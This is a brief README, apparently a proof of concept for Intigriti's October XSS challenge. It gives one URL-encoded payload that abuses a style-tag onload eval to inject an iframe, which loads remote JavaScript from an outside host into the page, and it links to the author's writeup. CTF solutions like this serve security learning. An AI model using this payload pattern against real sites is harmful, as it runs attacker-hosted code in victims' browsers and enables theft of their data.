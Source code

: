 # POC for Intigriti's OCT XSS challenge

https://challenge-1022.intigriti.io

## Live

* open a new private window and create account with a note with flag, then navigate to

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=yes%0Adocument.head.innerHTML=%27%27;document.body.innerHTML=%27%3Ciframe%20srcdoc=%22%3Cscript%3Ea=document.createElement(`script`);a.src=`https://inti.0xgodson.com/script.js`;top.window.document.head.append(a);%3C/script%3E%22%3E%27
```

My Writeup : https://blog.0xgodson.com/2022-10-14-intigriti-oct-xss-challenge-author-writeup/
